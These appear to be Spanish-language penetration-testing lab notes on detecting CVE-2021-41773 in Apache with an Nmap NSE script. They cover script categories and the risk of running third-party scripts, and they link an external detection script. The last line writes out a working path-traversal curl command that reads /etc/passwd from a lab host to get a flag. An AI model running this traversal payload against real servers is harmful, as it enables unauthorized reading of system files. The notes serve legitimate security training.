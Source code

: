Tras ejecutar el script NSE específico para **CVE-2021-41773**, el resultado indica que el sistema objetivo **es vulnerable**, y proporciona información adicional sobre el fallo de seguridad.

### Valor del NSE en pruebas de penetración:

Aunque **Nmap no es un escáner de vulnerabilidades tradicional**, su motor de scripts (**NSE**) permite realizar **escaneos ligeros y focalizados** de vulnerabilidades. Esto lo convierte en una herramienta útil en los siguientes escenarios:

- Cuando **no se dispone de un escáner comercial** como Nessus.
- Para **validar hallazgos detectados por otras herramientas**.
- Para realizar **análisis rápidos** en etapas iniciales de una auditoría.
    

### Consideraciones de seguridad al usar scripts NSE:

Al igual que con cualquier escáner de vulnerabilidades, deben considerarse varios factores de riesgo:

1. **Categorías del script NSE:**
    - Ayudan a identificar el comportamiento esperado:
        - `safe`: no altera el sistema objetivo.
        - `intrusive`: puede provocar interrupciones, inestabilidad o daños.            
    - Estas etiquetas son útiles para evaluar el impacto potencial antes de ejecutar un script.

2. **Posible código malicioso:**
    - Los scripts NSE, especialmente los descargados de fuentes externas (por ejemplo, GitHub), **pueden contener código malicioso**.
    - Existe el riesgo de que un script conceda **acceso total al sistema**, ya sea de forma intencionada o por errores en su lógica.

### Recomendación clave:

Antes de ejecutar cualquier script NSE (especialmente uno personalizado o de terceros), es **obligatorio revisar su contenido**, confirmar que realiza únicamente la funcionalidad deseada, y asegurarse de que proviene de una **fuente confiable**.

En resumen, NSE es una herramienta poderosa y flexible dentro de Nmap, pero debe utilizarse con el mismo nivel de precaución y evaluación que cualquier herramienta de explotación o escaneo en un entorno profesional.

**Enlace para descargar el plugin de nmap (cve-2021-41773)**
https://github.com/RootUp/PersonalStuff/blob/master/http-vuln-cve-2021-41773.nse


Comando para obtener flag de un sitio con la vulnerabilidad del cve anterior:
curl -i --path-as-is http://192.168.135.13:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
